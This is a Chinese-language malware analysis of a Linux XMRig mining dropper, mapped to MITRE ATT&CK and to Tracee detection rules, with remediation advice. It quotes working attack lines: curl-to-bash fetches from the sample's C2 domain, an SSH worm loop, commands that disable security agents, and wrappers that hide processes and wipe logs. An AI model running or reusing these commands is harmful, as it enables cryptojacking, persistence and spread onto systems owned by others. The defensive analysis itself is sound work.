


##  0x00    前言
本文以一个真实的 Linux 挖矿投放脚本 `mining.sh` 为样本，主要涉及如下内容：

1.  攻击手段原理与细节
2.  基于 [MITRE ATT&CK](https://attack.mitre.org/) 战术做归类
3.  基于开源项目 [Tracee](https://github.com/aquasecurity/tracee) ，分析能检测到脚本中的哪些恶意行为以及检测盲区

相关文章：
-	[Linux 安全对抗收集](https://pandaychen.github.io/2024/10/06/A-LINUX-SECURITY-STUDY/)

####    样本画像
`mining.sh` 是一段 POSIX `sh` 脚本，本质是一个 **XMRig（门罗币 Monero）挖矿木马投放器（dropper）**，融合了 kinsing、TeamTNT、kdevtmpfsi 等多个挖矿家族的经典手法。其最终目的是拉起矿机进程：

```bash
setsid /etc/javae -o pool.supportxmr.com:443 -k --tls --cpu-max-threads-hint=60 \
  -u 42s7H81wKKbggZsnd5geEeC7ANWUDhkqf7xhdSgaBd9ZE61qwwh7ch1gBQkE5FbvabAdNTeNV18nBNTpioUqmgHj4h4kks2 &
```

矿机被伪装成 `/etc/javae`（伪装为 Java 相关进程），连接 `pool.supportxmr.com:443` 并启用 TLS 隐蔽流量

####    IOC 清单

| 类型 | 值 | 说明 |
| :---- | :---- | :---- |
| 矿池 | `pool.supportxmr.com:443` | SupportXMR 门罗币矿池 |
| 钱包 | `42s7H81wKKbgg...Hj4h4kks2` | Monero 钱包地址（`-u` 参数） |
| C2 域名 | `accrochezvous.fr` | 下载 `cc.txt`（脚本）/ `x.rar`（矿机）/ `cb.txt` |
| C2 备份 IP | `51.15.203.72` | 主域名失效时的备份下载源 |
| 落地文件 | `/etc/javae`、`/tmp/javae` | 矿机二进制（伪装名） |
| 落地文件 | `/etc/cc.txt`、`/tmp/cc.txt` | 持久化拉起的脚本本体 |
| SSH 后门公钥 | `ssh-rsa AAAA...Er0= uc1` | 写入 `authorized_keys` |
| 伪装进程名 | `ip6network`/`kswaped`/`irqbalanced`/`rctlcli`/`systemd-network`/`pamdicks` | 占位并 `chattr +i` 锁定 |


##  0x01    脚本整体执行流
`mining.sh` 的执行可归纳为 9 个阶段，整体是一个"**先清场、再驻留、后挖矿、并横向**"的标准挖矿蠕虫流程：




##  0x02    攻击手段与原理详解

####    1、关闭安全防御（Defense Evasion）
脚本开篇即系统性地"拆掉所有报警器"，这是挖矿木马能长期驻留的前提：

```bash
iptables -F                       # 清空防火墙规则
ufw disable                       # 关闭 ubuntu 防火墙
setenforce 0 2>/dev/null          # 关闭 SELinux 强制模式
echo "SELINUX=disabled" > /etc/sysconfig/selinux
service apparmor stop             # 停 AppArmor
systemctl disable apparmor
echo '0' > /proc/sys/kernel/nmi_watchdog   # 关看门狗，便于长期高负载挖矿
```

更关键的是**定点卸载国内云厂商的主机安全 Agent（云镜/aegis）**，脚本通过 `ps aux | grep -i '[a]liyun'` 判断是否为阿里云环境，然后：

- 直接调用官方 `uninstall.sh`/`quartz_uninstall.sh` 卸载
- 内嵌两段 **base64 编码**的卸载脚本（`echo '....' | base64 -d | bash`），其中一段专门 `echo > kprobe_events`、`echo > set_event` 去清空 aegis 挂在 `/sys/kernel/debug/tracing/` 下的 **kprobe/tracepoint 追踪点**。针对性地"致盲" HIDS 的内核采集能力
- 对腾讯云（`[y]unjing`/云镜）则调用 `/usr/local/qcloud/YunJing/uninst.sh` 卸载

原理要点：挖矿木马深知现代 HIDS 依赖 `kprobe/tracepoint` 采集，因此专门清空 tracing 子系统的事件注册。**但对基于 eBPF（perf/ringbuf）挂载的采集器无效**，这正是 eBPF HIDS 相比传统 ftrace/kprobe_events 方案的对抗优势之一

PS：对现代的现代化 eBPF 工具（基于 libbpf 库、内核 5.x 及以上版本）广泛使用 bpf_link 和 perf_event_open 或者是 fentry/fexit等相关技术而言，这类挂载方式直接通过系统调用（`bpf()`）与内核对象绑定，并在用户态或内核态维持文件描述符（FD）引用。它们完全绕过了 tracefs 的文本配置接口。因此，即便木马把 `/sys/kernel/debug/tracing/` 下的文件全部清空或删除，已经挂载的现代 eBPF 程序依然会稳固运行

####    2、清理竞争对手（Impact / Discovery）
挖矿的收益与 CPU 独占度正相关，脚本用数百行 `ps`/`netstat`/`pkill` 清掉所有竞品矿机：

```bash
# 按矿池常用端口杀连接
netstat -anp | grep :3333 | awk '{print $7}' | awk -F'[/]' '{print $1}' | grep -v "-" | xargs -I % kill -9 %
# 按已知挖矿家族名/特征杀进程
pkill -f 'xmrig|kdevtmpfsi|kinsing|watchdogs|sustes|ddg|kthrotlds|...'
# 按 CPU 占用杀（高占用可疑进程）
ps aux | grep -v grep | grep -v aux | grep "]" | awk '$3>10.0{print $2}' | xargs -I % kill -9 %
# 清理竞品落地文件
rm -rf /tmp/kdevtmpfsi /var/tmp/kinsing /tmp/.kerberods ...
```

`kill_sus_proc()` 还会遍历 `/proc/$pid/exe`，凡是指向 `/tmp` 且 cmdline 不含自己标记 `javae` 的进程一律杀掉，只保留自己

####    3、二进制劫持与进程自隐藏（Defense Evasion）
这是本样本较有特色的部分。它同时做了两类劫持：

（1）**改名下载器**，规避基于 `wget/curl` 命令名的检测，并保留自己可用的副本：

```bash
mv /usr/bin/wget /usr/bin/wd1
mv /usr/bin/curl /usr/bin/cd1
```

（2）**包装系统进程查看工具**，让 `ps/top/pstree` 永远看不到矿机：

```bash
modify_binary() {
    local binary=$1
    local original="${binary}.original"
    if [ ! -f "$original" ]; then
        mv "$binary" "$original"                              # 备份原始 ps
        echo "#! /bin/bash" > "$binary"
        echo "$original \$@ | grep -v \"javae\|pnscan\"" >> "$binary"  # 包装为过滤脚本
        chmod +x "$binary"
        touch -d 20160825 "$binary"                           # 时间戳回溯，伪装成旧文件
    fi
}
modify_binary "/bin/ps"; modify_binary "/bin/top"; modify_binary "/bin/pstree"
```

原理：把 `/bin/ps` 换成一个 shell 包装脚本，内部调用真身 `ps.original` 并 `grep -v javae` 过滤掉矿机行。**用户态的 `ps/top` 从此对矿机失明**。`touch -d 20160825` 做时间戳回溯（timestomping）进一步反取证

####    4、文件锁定对抗（Defense Evasion）
脚本大量使用 `chattr`（文件不可变位）做双向对抗：

- 对**竞品/清理目标**先 `chattr -i` 解锁再删除
- 对**自己的落地文件**（`/etc/javae`、`/etc/cc.txt`、`authorized_keys`、crontab）`chattr +i`/`+ia` 上锁，让管理员 `rm` 不掉
- 甚至给一批**占位文件**（`/usr/bin/kswaped` 等伪装名）写入内容后 `chattr +i`，卡住这些"坑位"防止竞品复用
- 若 `chattr` 被删，则 `yum remove/install e2fsprogs` 重新装回

####    5、落地与持久化（Persistence）
脚本区分 root/非 root 两条分支（通过 `/etc/javae` 标记文件判断），植入三类持久化：

（1）**SSH 免密后门**，写入攻击者公钥并锁定：

```bash
mkdir -p /root/.ssh; chmod 700 /root/.ssh/
echo "ssh-rsa AAAAB3Nza...Er0= uc1" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chattr +ia /root/.ssh/authorized_keys
```

（2）**Crontab 定时拉起**，多处冗余写入，`*/50`、`*/30`、`@boot`：

```bash
manage_cron() {
    unlock_cron
    echo "*/50 * * * * sh /etc/cc.txt >/dev/null 2>&1" >> "$crondir"
    echo "*/50 * * * * root sh /etc/cc.txt >/dev/null 2>&1" >> /etc/cron.d/javae
    echo "0 1 * * * root sh /etc/cc.txt >/dev/null 2>&1" >> /etc/crontab
    lock_cron   # chattr +ia 锁定 cron 目录
}
```

（3）**矿机与脚本本体落地**到 `/etc/javae`（或 `/tmp/javae`）与 `/etc/cc.txt`。

####    6、C2 下载（Command and Control / Ingress Tool Transfer）
`downloads()` 封装了一个健壮的多源下载器：优先 `curl`（含改名后的 `cd1`），失败切 `wget`/`wd1`，主 URL 失败切备份 URL，并用 HTTP 状态码判断：

```bash
downloads() {
    http_code=`curl -I -m 50 -o /dev/null -s -w %{http_code} $1`
    if [ "$http_code" -eq "200" ] || [ "$http_code" -eq "405" ]; then
        curl --connect-timeout 100 --retry 100 $1 > $2      # 主源
    else
        curl --connect-timeout 100 --retry 100 $3 > $2      # 备份源
    fi
}
```

脚本末尾还有典型的 `curl ... | bash` / `base64 -d | bash` 无落地执行链，用于拉起下一阶段：

```bash
$bbdir -fsSL https://accrochezvous.fr/plugins-dist/safehtml/images/cb.txt | bash
```

####    7、横向移动（Lateral Movement）
读取 `~/.ssh/known_hosts` 里出现过的 IP，用**免密方式**尝试登陆并在对端执行同样的 `cc.txt`，形成蠕虫式扩散：

```bash
if [ -f /root/.ssh/known_hosts ] && [ -f /root/.ssh/id_rsa.pub ]; then
  for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do
    ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h \
      'curl -o- https://accrochezvous.fr/plugins-dist/safehtml/images/cc.txt | bash >/dev/null 2>&1 &' &
  done
fi
```

####    8、启动挖矿（Impact: Resource Hijacking）
`echo 128 > /proc/sys/vm/nr_hugepages` 开启大页内存（XMRig 性能优化），随后 `setsid` 脱离终端后台拉起矿机连接矿池（见 `0x00`章节）

####    9、清理痕迹（Defense Evasion: Indicator Removal）
```bash
history -c                          # 清 shell 历史
echo > /var/log/wtmp                # 清登录记录
echo > /var/log/secure              # 清认证日志
echo > /root/.bash_history
iptables -A OUTPUT -p tcp --dport 7777 -j DROP   # 阻断竞品回连端口
```

##  0x03    基于 ATT&CK 的攻击手段归类
将上述行为按 ATT&CK 战术（Tactic）→ 技术（Technique）归类如下：

-   **Execution 执行**
    -   `T1059.004` Command and Scripting Interpreter: Unix Shell：整段 `sh` 脚本、`curl|bash`
    -   `T1140` Deobfuscate/Decode Files or Information ： `base64 -d | bash` 解码内嵌卸载脚本
-   **Persistence 持久化**
    -   `T1053.003` Scheduled Task/Job: Cron ： `manage_cron()` 写 `/etc/crontab`、`/etc/cron.d/javae`、用户 crontab
    -   `T1098.004` Account Manipulation: SSH Authorized Keys：写入 `uc1` 公钥
    -   `T1547.006` Boot or Logon Autostart: Kernel Modules： （脚本对内核模块的对抗，反向印证该面）
-   **Privilege Escalation 权限提升**
    -   脚本本身以 root 运行（`if [ -f "$rtdir" ]` 判断 root 分支），主要利用既有 root 权限
-   **Defense Evasion 防御规避**
    -   `T1562.001` Impair Defenses: Disable or Modify Tools：卸载云镜/aegis、清空 tracing kprobe_events、停 SELinux/AppArmor
    -   `T1562.004` Impair Defenses: Disable or Modify System Firewall ： `iptables -F`、`ufw disable`
    -   `T1070.002` Indicator Removal: Clear Linux or Mac System Logs：清 `wtmp`/`secure`
    -   `T1070.003` Indicator Removal: Clear Command History ： `history -c`
    -   `T1222.002` File and Directory Permissions Modification: Linux ： `chattr +i/-i`
    -   `T1036.005` Masquerading: Match Legitimate Name or Location ： `/etc/javae`、`kswaped`、`systemd-network` 等伪装名
    -   `T1027` Obfuscated Files or Information：base64 编码 payload
    -   `T1070.006` Indicator Removal: Timestomp ： `touch -d 20160825`
    -   `T1554` Compromise Host Software Binary：包装 `ps/top/pstree`、改名 `wget/curl`
    -   `T1014` Rootkit： （对抗 tracing 的手法，与内核级隐藏同类目标）
-   **Discovery 发现**
    -   `T1057` Process Discovery：海量 `ps aux`
    -   `T1518.001` Software Discovery: Security Software Discovery ： `grep aegis/yunjing/hids/edr`
    -   `T1046` Network Service Discovery ： `netstat -anp` 枚举端口
-   **Lateral Movement 横向移动**
    -   `T1021.004` Remote Services: SSH：基于 `known_hosts` 的免密扩散
-   **Command and Control 命令与控制**
    -   `T1105` Ingress Tool Transfer ： `downloads()` 下载矿机与脚本
    -   `T1071.001` Application Layer Protocol: Web Protocols：HTTPS 拉取 C2、矿池 `:443` + `--tls`
-   **Impact 影响**
    -   `T1496` Resource Hijacking：门罗币挖矿
    -   `T1489` Service Stop ： `systemctl stop`/`service stop` 停用云监控与竞品服务

todo

##  0x04    基于 Tracee 的检测分析
本章节基于[Tracee](https://github.com/aquasecurity/tracee)项目来分析。该项目自带一套**成品检测器（Detector / Signature）**，直接产出带 ATT&CK 元数据的告警。检测分两层：

-   底层 eBPF 负责采集**原始事件**（`tracee/pkg/ebpf/c/tracee.bpf.c`）
-   上层 Go Detector（`tracee/detectors/*.go`）消费事件产出结论



####    1、底层原始事件（tracee.bpf.c）
脚本涉及的核心内核行为，Tracee 均有对应 eBPF 程序采集（进程/网络/文件事件）

-   进程执行：`raw_tracepoint/sys_execve`、`sys_execveat`
-   文件打开/写入：`kprobe/security_file_open`、`kprobe/vfs_write`（`magic_write` 的实现来源）
-   文件重命名：`kprobe/security_inode_rename`
-   网络连接：`kprobe/security_socket_connect`
-   内核模块 / 内核态执行：`kprobe/do_init_module`、`kprobe/call_usermodehelper`

下文，基于 tracee 的实现逐个分析下告警规则

####    2、落地并执行矿机：dropped_executable(TRC-1022)
Tracee 用 `magic_write` 事件取文件写入的首部字节，判断是否为 ELF，若是"运行期被丢到磁盘的可执行文件"即告警：

```go
//79:113:tracee/detectors/dropped_executable.go
func (d *DroppedExecutable) OnEvent(ctx context.Context, event *v1beta1.Event) ([]detection.DetectorOutput, error) {
        // Extract magic bytes written
        bytes, ok := v1beta1.GetData[[]byte](event, "bytes")
        if !ok {
                d.logger.Debugw("Failed to extract bytes")
                return nil, nil
        }

        // Check if it's an ELF file
        if !elf.IsElf(bytes) {
                return nil, nil
        }

        // Extract pathname
        pathname, err := v1beta1.GetDataSafe[string](event, "pathname")
        if err != nil {
                d.logger.Debugw("Failed to extract pathname", "error", err)
                return nil, nil
        }

        // Ignore memory paths (e.g., memfd:, /dev/shm/)
        if parsers.IsMemoryPath(pathname) {
                return nil, nil
        }
        ...
```

**对应脚本**：`downloads()` 把 `x.rar`（实为 ELF 矿机）写到 `/etc/javae`，这正是"运行期落地可执行文件"。**但要注意**该检测器带 `container=started` 作用域：

```go
//26:35:tracee/detectors/dropped_executable.go
        Events: []detection.EventRequirement{
                {
                        Name:       "magic_write",
                        Dependency: detection.DependencyRequired,
                        // CRITICAL: Use container=started to match old Origin: "container" behavior
                        // This checks BOTH Container.ID != "" AND ContainerStarted == true
                        ScopeFilters: []string{"container=started"},
                        // No DataFilters - need to check ELF magic bytes and path runtime
                },
        },
```

即 **TRC-1022 只在容器内触发**。本样本直接跑在宿主机 root 上时，该签名默认不会命中，这是一个需要注意的部署前提（可以理解，宿主机上的误报可能非常多，但是容器内就是一个比较罕见的行为）

####    3、隐藏可执行文件：hidden_file_created(TRC-1015)
若矿机被写成隐藏文件（如 `/tmp/.tmpc`、`/root/.tmp/xmrig`，脚本清理列表里出现过大量 `/.` 前缀路径），判断"路径含 `/.` 且内容是 ELF"即告警，且该签名**无容器作用域限制**（宿主机也生效）：

```go
//74:89:tracee/detectors/hidden_file_created.go
        // Get pathname and bytes from magic_write event
        pathname, err := v1beta1.GetDataSafe[string](event, "pathname")
        if err != nil {
                return nil, nil
        }

        bytes, err := v1beta1.GetDataSafe[[]byte](event, "bytes")
        if err != nil {
                return nil, nil
        }

        // Check if this is a hidden file (contains "/.")  AND an ELF executable
        if strings.Contains(pathname, "/.") && elf.IsElf(bytes) {
                return detection.Detected(), nil
        }
```

映射 ATT&CK `T1564.001 Hidden Files and Directories`（见该文件定义处的 Mitre 元数据）

todo

####    4、Crontab 持久化：scheduled_task_modification(TRC-1027)
这是覆盖本样本持久化最精准的签名。它同时监听三类事件：写 cron 文件（`security_file_open` 且 write）、把文件 rename 成 cron 路径、以及执行 `crontab`/`at` 命令：

```go
//28:65:tracee/detectors/scheduled_task_modification.go
            {
                    Name:       "security_file_open",
                    Dependency: detection.DependencyRequired,
                    DataFilters: []string{
                            "pathname=/etc/crontab",
                            "pathname=/etc/anacrontab",
                            "pathname=/etc/cron.deny",
                            "pathname=/etc/cron.allow",
                            "pathname=/etc/cron.hourly/*",
                            "pathname=/etc/cron.daily/*",
                            "pathname=/etc/cron.weekly/*",
                            "pathname=/etc/cron.monthly/*",
                            "pathname=/etc/cron.d/*",
                            "pathname=/var/spool/cron/crontabs/*",
                            "pathname=var/spool/anacron/*",
                    },
            },
            {
                    Name:       "security_inode_rename",
                    ...
            },
            {
                    Name:       "sched_process_exec",
                    Dependency: detection.DependencyRequired,
            },
```

运行期逻辑对执行的命令名做 `crontab/at/batch/launchd` 匹配：

```go
//124:130:tracee/detectors/scheduled_task_modification.go
        case "sched_process_exec":
                pathname := v1beta1.GetProcessExecutablePath(event)
                basename := path.Base(pathname)
                if d.cronCommands[basename] {
                        d.logger.Debugw("Scheduled task command execution detected", "command", basename)
                        return detection.Detected(), nil
                }
```

**对应脚本**：`manage_cron()` 写 `/etc/crontab`、`/etc/cron.d/javae`、`/var/spool/cron/$USER`，以及 `crontab -` 命令，**全部命中**，映射 `T1053.003 Cron`（`Persistence`），且为 Origin `*`（宿主机 + 容器均触发）

####    5、ld.so.preload 劫持：ld_preload(TRC-107)
脚本里有 `rm -f /etc/ld.so.preload`、`chattr -i /etc/ld.so.preload`（清理竞品的预加载 rootkit），而 Tracee 对**任何**针对 `/etc/ld.so.preload` 的写/改名，以及带 `LD_PRELOAD` 环境变量的进程执行都会告警：

```go
//80:128:tracee/detectors/ld_preload.go
func (d *LdPreload) OnEvent(ctx context.Context, event *v1beta1.Event) ([]detection.DetectorOutput, error) {
        eventName := event.Name

        switch eventName {
        case "sched_process_exec":
                // Check for LD_PRELOAD or LD_LIBRARY_PATH in environment variables
                ...
                for _, envVar := range envVars {
                        for _, preloadEnv := range d.preloadEnvs {
                                if strings.HasPrefix(envVar, preloadEnv+"=") {
                                        ...
                                        return detection.DetectedWithData(...), nil
                                }
                        }
                }

        case "security_file_open":
                ...
                // DataFilter already validated pathname ends with /etc/ld.so.preload
                pathname, _ := v1beta1.GetDataSafe[string](event, "pathname")
                d.logger.Debugw("LD_PRELOAD file write detected", "path", pathname)
                return detection.Detected(), nil

        case "security_inode_rename":
                // DataFilter already validated new_path ends with /etc/ld.so.preload
                newPath, _ := v1beta1.GetDataSafe[string](event, "new_path")
                d.logger.Debugw("LD_PRELOAD file rename detected", "path", newPath)
                return detection.Detected(), nil
        }
```

映射 `T1574 Hijack Execution Flow`。注意本样本是在**清理**该文件（读/删而非写），是否命中取决于删除是否触发受监控的 write flag；但只要后续有写 preload 或带 `LD_PRELOAD` 执行，即会告警

####    6、非法 Shell 派生：illegitimate_shell(TRC-1016)
若挖矿是通过 Web 应用漏洞（如 Confluence，脚本里清理过 `/opt/atlassian/confluence/bin/*.sh`）投放的，则"Web 服务进程派生 shell"会命中该签名：

```go
//99:127:tracee/detectors/illegitimate_shell.go
        // Extract process name (comm/thread name)
        processName := v1beta1.GetProcessThreadName(event)
        if processName == "" {
                return nil, nil
        }

        // Check if current process is a shell
        if !d.shellNames[processName] {
                return nil, nil
        }

        // Extract parent process name
        prevComm, err := v1beta1.GetDataSafe[string](event, "prev_comm")
        ...
        // Check if parent process is a web server
        if !d.webServersProcessNames[prevComm] {
                return nil, nil
        }

        // Detection: web server spawned a shell
        ...
        return detection.Detected(), nil
```

映射 `T1190 Exploit Public-Facing Application`。适用于**投放阶段**（父进程为 `nginx/httpd/apache/tomcat`），对已在宿主机 root 直接运行的场景不触发

####    7、Docker 滥用：docker_abuse(TRC-1019)
脚本末尾有大量 `docker ps/kill/rmi`（清理竞品容器矿机、逃逸利用）。Tracee 的 `docker_abuse` 检测容器内对 `docker.sock` 的访问：

```GO
//28:41:tracee/detectors/docker_abuse.go
            {
                    Name:         "security_file_open",
                    Dependency:   detection.DependencyRequired,
                    ScopeFilters: []string{"container=started"},
                    DataFilters: []string{
                            "pathname=*docker.sock",
                    },
            },
            {
                    Name:         "security_socket_connect",
                    Dependency:   detection.DependencyRequired,
                    ScopeFilters: []string{"container=started"},
                    // Note: Cannot use DataFilter - path is in nested sockaddr.SunPath structure
            },
```

映射 `T1068`。同样是 `container=started` 作用域，针对"容器内访问宿主 docker.sock"，宿主机直接执行 `docker` 命令不由该签名负责。

####    8、内核对抗：kernel_module_loading(TRC-1017) / syscall_table_hooking(TRC-1030)
若木马升级为 LKM rootkit，Tracee 的 `module_load` 事件即触发 `kernel_module_loading`（`T1547.006`），`hooked_syscall` 事件触发 `syscall_table_hooking`（`T1014`，`HIGH` 级）：

```go
//57:60:tracee/detectors/syscall_table_hooking.go
func (d *SyscallTableHooking) OnEvent(ctx context.Context, event *v1beta1.Event) ([]detection.DetectorOutput, error) {
        // Every hooked_syscall event is a detection
        d.logger.Debugw("Syscall table hooking detected")
        return detection.Detected(), nil
}
```

本样本未加载 LKM，故不直接命中，但这两个签名是"木马内核化后"的兜底，可以检测内核态恶意行为

####    Tracee 的检测优缺点
-   **优势**：自带带 ATT&CK 元数据的成品签名（`Threat`/`Mitre` 字段直接给出 tactic/technique），持久化（cron）、隐藏 ELF、ld.so.preload、rootkit 等开箱即用
-   **盲区**：
    -   `dropped_executable`、`docker_abuse` 等带 `container=started` 作用域，**宿主机 root 直接投放不触发**；本样本是典型宿主机场景，需注意策略作用域配置。
    -   Tracee **没有专门的 `chattr` 不可变位语义**、没有针对"清空 `/var/log/wtmp`/`history -c`"的成品签名，这类需自定义规则（基于 `security_file_open`/`sched_process_exec` 命令行）
    -   矿池连接、DNS 等属于原始事件，需自行叠加恶意情报匹配才能变成"挖矿告警"（社区另有 `crypto_miner`/网络类签名实现可参考）

##  0x07    处置与加固建议
1.  **止血**：`kill` 矿机进程（真实路径 `/etc/javae`、`/tmp/javae`），注意先 `chattr -ia` 解锁再删文件；恢复被包装的 `/bin/ps`、`/bin/top`、`/bin/pstree`（用 `.original` 还原）与 `wget/curl`
2.  **清持久化**：删除 `authorized_keys` 中的 `uc1` 公钥；清理 `/etc/crontab`、`/etc/cron.d/javae`、`/var/spool/cron/*` 中的 `cc.txt` 定时项
3.  **网络隔离**：在边界/主机防火墙封禁 `pool.supportxmr.com`、`accrochezvous.fr`、`51.15.203.72`，阻断门罗币矿池常用端口（`3333/5555/7777/443`+`--tls` 指纹）
4.  **恢复防御**：重装并重新拉起被卸载的 HIDS/云监控 Agent，恢复 SELinux/AppArmor、`iptables`，检查 `/sys/kernel/debug/tracing/` 是否被清空
5.  **溯源**：检查 `known_hosts` 中的 IP，排查横向移动是否已扩散到其它主机
6.  **检测加固**：可补齐针对本样本的规则
    -   `execve`：`chattr +i` 作用于敏感路径、`echo > /var/log/*`、`history -c`、`base64 -d|bash`、`curl|bash`
    -   `security_inode_rename`：系统关键二进制被改名（`/bin/ps`、`wget`）
    -   `security_inode_create`：cron 目录/`authorized_keys`/`/etc/*` 下出现可执行文件
    -   `security_socket_connect` + 情报：矿池 IP/域名

##  0x08    参考
-   [MITRE ATT&CK Matrix for Enterprise](https://attack.mitre.org/matrices/enterprise/linux/)
-   [Tracee: Runtime Security and Forensics using eBPF](https://github.com/aquasecurity/tracee)
-   [Tracee Detectors / Signatures 文档](https://aquasecurity.github.io/tracee/latest/docs/events/builtin/signatures/)
-   [SupportXMR 矿池](https://supportxmr.com/)
